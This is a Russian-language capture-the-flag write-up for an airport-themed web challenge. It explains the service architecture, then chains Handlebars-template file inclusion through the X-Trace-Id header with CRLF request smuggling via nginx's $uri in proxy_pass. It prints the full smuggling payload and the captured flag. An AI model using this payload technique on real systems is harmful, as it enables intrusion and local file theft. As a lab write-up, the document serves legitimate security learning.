





# Капибардак


### Описание

Вас приветствует аэропорт Капибаровска.

И он уже два часа не принимает и не отправляет самолеты из-за взлома: рейсы и время на табло перепутаны, багажная лента стоит, нервозность растет.

Добудьте код и запустите восстановление системы.

Сайт аэропорта: t-bedlam-d0dw3v3n.spbctf.org/

Исходный код: bedlam_7b22be3.tar.gz

## Решение

### Изучение работы сервиса

Скачиваем сорцы bedlam_7b22be3.tar.gz, разархивируем и видим:

```
$ tree    
.
└── bedlam
    ├── backend
    │   ├── Dockerfile
    │   ├── gunicorn.conf.py
    │   ├── main.py
    │   └── req.txt
    ├── docker-compose.yaml
    ├── nginx
    │   ├── internal.conf
    │   ├── nginx.conf
    │   └── static
    │       ├── booking.html
    │       ├── css
    │       │   └── style.css
    │       ├── favicon.png
    │       ├── index.html
    │       ├── js
    │       │   ├── booking.js
    │       │   └── main.js
    │       ├── logo.png
    │       └── repair.html
    ├── printer
    │   ├── Dockerfile
    │   └── src
    │       ├── package.json
    │       ├── pdf.js
    │       ├── server.js
    │       ├── ticket.tmpl
    │       └── tickets
    └── repair_code

```

Запускаем **docker compose**, изучаем сорцы, как работает сервис. Видим архитектуру сервиса.



1) Пользователь обращается к сервису, развернутому за **nginx reverse proxy**, который обслуживает статический контент (HTML + JS). После заполнения формы для генерации PDF-билета, клиент отправляет запрос на эндпоинт **/ap**i.

2) Сервис **nginx** содержит конфигурацию для локации **/api**, которая перенаправляет запросы через проксирование на внутренний — **internal-balancer**.

```
location /api {
    proxy_set_header Host backend;
    proxy_pass http://internal-balancer$uri;
}
```
3) Сервис **internal-balancer** это nginx реверс прокси, который обслуживает два сервиса **printer** и **backend**. Клиентский запрос с **host=internal-balancer** и **uri=/api** попадает в сервис **backend**.
4) Сервис **backend** принимает входящие данные, нормализирует их, добавляет и митигирует параметры, затем выполняет запрос в **internal-balancer** на ендпоинт **/generate**

```
r = requests.post(
    "http://internal-balancer/generate",
    headers={"X-Trace-Id": str(uuid4())},
    data=data,
)
```

Также стоит обратить внимание на добавление заголовка **X-Trace-Id**

5) В свою очередь, сервис **print** выполняет создание PDF документа по **.tmpl** шаблону.


### Где находится флаг

Сам флаг находится в переменной окружения **${FLAG}**, которая будет прочитана микросервисом **backend** при POST-запросе на **/repair_panel**, где в теле сообщение передается **code=** который должен совпадать с кодом из файла **repair_code**:

```py
@app.route("/repair_panel", methods=["POST"])
def repair_panel():
    user_code = request.json.get("code")
    with open("/repair_code") as f:
        instruction = f.read()
        code = re.search(r'code: ([A-z0-9_-]{14,36})\.', instruction)
        if user_code == code.group(1):
            FLAG = os.getenv("FLAG")
            return jsonify({"message": f"System restored: {FLAG}"}), 200
        else:
            return jsonify({"error": f"Code is incorrect."}), 400
```



При этом, файл **repair_code** смонтирован в обоих сервисах: **backend** и **print**. Ключевая задача, прочить файл **repair_code**

### Моделирование угроз


#### Local File Inclusion

В первую очередь в глаза бросается шаблонизация при печати PDF документа и заголовок **X-Trace-Id**.


```js
export async function generateBoardingPass(boardingPassData) {
    
    const filePath = path.join(path.resolve(''), 'ticket.tmpl');
    const template = hbs.compile(fs.readFileSync(filePath, 'utf8'));
    const boardingPassTemplate = template(boardingPassData);
```

```html
<div style="opacity: .2;">X-Trace-Id: {{ trace traceId }}</div>
```

Локально в качестве отладки, меняя шаблон и проведя несколько тестов с различными пейлодами и пересобрав приложение, получается выполнить **LFI**, где в **X-Trace-Id** передается пейлод. Узвимость подтверждена, но если передать **X-Trace-Id** в сервис **backend**, то он будет перезаписан. Нужен способ, как байпаснуть митигации в **backend** микросервисе, **либо обойти его** и сделать запрос в **printer**.

```html
<iframe src="file:///repair_code">
```

#### HTTP Request Smuggling

Изучаем конфиги **nginx** и **load-balancer**, находим паттерн миссконфигурации которая может приводить к **HTTP Request Smuggling** используеся **CRLF** атаку. Сервис **nginx** имеет конфиг:

```
location /api {
    proxy_set_header Host backend;
    proxy_pass http://internal-balancer$uri;
}
```

**$uri** - это встроенная переменная **nginx**, которая содержит **URI** запроса (без параметров, начинается с **/**), **$uri** обычно используется при создании перенаправлений в конфигурации **Nginx**, что приводит к внедрению **CRLF**. 


### Эксплуатация

Пробуем подобрать пейлод, чтобы выполнить **HTTP Request Smuggling**, при этом, нужно создать валидный запрос со всеми обязательными параметрами для печати PDF документа:

```
https://<host>/api/%252e%252e/generate%20HTTP/1.0%0D%0AHost%3A%20printer%0D%0AX-Trace-Id%3A%20%3Ciframe%20src%3D/repair_code%20height%3D999%3E%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2093%0D%0A%0D%0Apassenger%3Da%26flight_number%3Db%26date%3Dc%26seat%3Dd%26from%3De%26to%3Df%26departure%3Dg%26arrival%3Dh%26gate%3Di%26terminal%3Dj
```



В итоге получаем билет в котором будет содержимое **/repair_code**



Получем флаг: tctf{WoW_You_WON_yOUR_Gold3n_ticKE7_T0_7he_plANe}



